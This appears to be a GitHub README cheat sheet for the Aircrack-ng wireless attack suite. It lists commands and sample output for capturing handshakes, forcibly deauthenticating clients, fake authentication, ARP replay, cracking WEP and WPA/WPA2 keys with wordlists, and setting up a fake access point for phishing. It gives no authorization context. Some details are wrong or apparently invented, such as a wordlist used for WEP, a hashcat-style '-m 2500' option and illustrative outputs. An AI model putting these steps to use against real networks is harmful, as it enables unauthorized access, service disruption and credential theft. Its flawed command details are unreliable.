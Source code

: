 ## Aircrack-ng Commands

- This command captures packets from a specified wireless interface and saves them in a spesific file.

```c
airodump-ng <interface>
```

- This command cracks a WEP key using the captured packets. Cryptographic attacks can be used to reveal the real password.

```c
aircrack-ng -b <BSSID> <capture_file>
```

- This command cracks a WPA/WPA2-PSK key using a wordlist and the captured handshake. It attempts to match the captured password key with possible passphrases from the wordlist.

```c
aircrack-ng -w <wordlist> -b <BSSID> <capture_file>
```

- This command enables monitor mode on a specified wireless interface connection. Monitor mode is required to be able to read and display all packets on the wireless link.

```c
airmon-ng start <interface>
```

- This command deauthenticates clients of an access point to capture the handshake; in other words, it forcibly kicks clients off the system. So that they will try and reconnect their connection, hence giving you a chance to capture the handshake and entering the system.

```c
aireplay-ng --deauth <count> -a <BSSID> -c <client_MAC> <interface>
```

- This command provides fake authentication to an access point. It assists in associating with an access point without knowing a valid password; many times, it is a prerequisite to further attacks.

```c
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC_address> <interface>
```

- This command performs an ARP(The Address Resolution Protocol) request replay attack to generate traffic. This traffic makes the process of cracking WEB keys easier and faster. This makes the Aircrack -ng tool more functional.

```c
aireplay-ng -3 -b <BSSID> -h <MAC_address> <interface>
```

- This command tests packet injection capabilities of the wireless interface. Successful packet injection is critical for network conneciton attacks.

```c
aireplay-ng -9 <interface>
```

- This turns off monitor mode on any wireless interface. Returns the interface to managed mode, returning it to normal networking. It's sort of the final stage of the attack. The programme stops running.

```c
airmon-ng stop <interface>
```

- This command displays the help menu and usage information for Aircrack-ng. It provides an overview of available options and command syntax.

```c
aircrack-ng -h
```

Alternative usage:

```c
aircrack-ng --help
```

| Command | Example Usage | Function | Output Example |
| --- | --- | --- | --- |
| Monitor Mode | `airmon-ng start wlan0` | Enables monitor mode on wlan0 interface. | `Interface wlan0 set to monitor mode on channel 6` |
| Stop Monitor Mode | `airmon-ng stop wlan0` | Stops monitor mode on wlan0 interface. | `Interface wlan0 set to managed mode` |
| Capture Packets | `airodump-ng wlan0` | Captures packets on wlan0 interface. | `CH  9 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]   `   `   BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID   `   `   AA:BB:CC:DD:EE:FF  -30       10       20    0   6  54e  WPA2 CCMP   PSK  MyNetwork` |
| Use a Specific Channel | `airodump-ng --channel 6 wlan0` | Captures packets on a specified channel. | `CH  6 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]` |
| Start WPA Handshake Capture | `airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0` | Captures WPA handshake for cracking later. | `Waiting for packets...` |
| Deauthenticate Clients | `aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 00:11:22:33:44:55 wlan0` | Deauthenticates clients from access point. | `Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55]` |
| Fake Authentication | `aireplay-ng -1 0 -e MyNetwork -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0` | Performs fake authentication with access point. | `Association successful :-)` |
| Packet Injection Test | `aireplay-ng -9 wlan0` | Tests packet injection capabilities. | `Injection is working!` |
| ARP Request Replay | `aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0` | Performs ARP request replay attack. | `The AP appears to drop packets of length: 68` |
| Start WEP Attack | `aircrack-ng -b AA:BB:CC:DD:EE:FF -w wordlist.txt capture.cap` | Starts WEP attack using a wordlist. | `Attempting to crack WEP key...` |
| Crack WEP Key | `aircrack-ng -b AA:BB:CC:DD:EE:FF capture.cap` | Cracks WEP key using capture file. | `KEY FOUND! [ 12:34:56:78:90 ]` |
| Crack WPA/WPA2-PSK Key | `aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap` | Cracks WPA/WPA2-PSK key using wordlist. | `Passphrase not in dictionary   `   `   Read 100000 packets...` |
| Capture PMKID for WPA/WPA2 | `hcxdumptool -i wlan0 -o capture.pmkid` | Captures PMKID for WPA/WPA2 cracking. | `PMKID: XX:XX:XX:XX:XX:XX` |
| Use Precomputed Hashes | `aircrack-ng -m 2500 -b AA:BB:CC:DD:EE:FF -w hashes.txt capture.cap` | Uses precomputed hashes for cracking WPA/WPA2. | `Cracking with precomputed hashes...` |
| Create a Fake AP | `airbase-ng -e MyNetwork -c 6 wlan0` | Creates a fake access point for phishing. | `Starting fake access point...` |
| WEP Injection Attack | `aireplay-ng -2 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0` | Sends injection packets to perform a WEP attack. | `Injection successful!` |